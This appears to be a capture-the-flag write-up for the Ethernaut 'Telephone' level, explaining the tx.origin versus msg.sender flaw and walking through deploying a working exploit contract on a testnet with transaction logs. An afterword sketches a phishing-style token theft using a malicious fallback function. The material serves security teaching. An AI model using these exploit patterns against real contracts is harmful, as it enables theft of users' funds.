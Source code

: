 # 04 - Telephone

## Challenge

Claim ownership of the contract below to complete this level.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Summary

The contract is vulnerable to `tx.origin` attack. The `changeOwner` function will change the owner if the caller is not the original caller of the transaction. This means that if we call `changeOwner` from another contract, the `tx.origin` will be the original caller of the transaction (our account), which is NOT the same as `msg.sender` (the middle contract), and the `owner` could be changed.

Here's a nice graph to summarize the difference between `tx.origin` and `msg.sender`:

![tx.origin vs msg.sender](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Q_mcX4Po8JTKUS2yJhvcPQ.png)

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x3df06561127880A168E7A2ae3AbE06d407420110'
```

As explained, we simply create a middle contract which can call `changeOwner`.

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneExploit {
    address public owner;

    constructor() {
        owner = msg.sender; // set owner to our account
    }

    function attack(address _telephoneAddress) public {
        ITelephone(_telephoneAddress).changeOwner(owner);
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['TelephoneExploit']

>>> contract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> contract.deploy()
2023-06-05 12:06:08.755 | DEBUG    | cheb3.contract:deploy:92 - Deploying contract ...
2023-06-05 12:06:21.555 | INFO     | cheb3.contract:deploy:97 - The contract is deployed at 0xec3a8E87A7064e1482d51f0A1c4A0c7Bb5F0f773
```

Now we just need to call `attack` `_telephoneAddress`, which is `contract_addr`.

```py
>>> contract.functions.attack(contract_addr).send_transaction(gas_limit=1000000) # gas_limit is required
2023-06-05 12:07:11.226 | INFO     | cheb3.contract:send_transaction:232 - (0xec3a8E87A7064e1482d51f0A1c4A0c7Bb5F0f773).attack transaction hash: 0x212b58e14b82a56cc57c4345adfc528cbda5d271ee3b62b22a83020b6cdcac0d
AttributeDict({'blockHash': HexBytes('0x410f149526baacd76e63478ab81929b18e1a386f674e2e3904a6adc581256941'), 'blockNumber': 9128266, 'contractAddress': None, 'cumulativeGasUsed': 7746770, 'effectiveGasPrice': 9000, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 32368, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0xec3a8E87A7064e1482d51f0A1c4A0c7Bb5F0f773', 'transactionHash': HexBytes('0x212b58e14b82a56cc57c4345adfc528cbda5d271ee3b62b22a83020b6cdcac0d'), 'transactionIndex': 41, 'type': 0})
```

`await contract.owner()` now will return our account address. Finally, submit the instance to pass the level.

## Afterword

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```js
function transfer(address _to, uint _value) {
    tokens[tx.origin] -= _value;
    tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```js
function () payable {
    token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.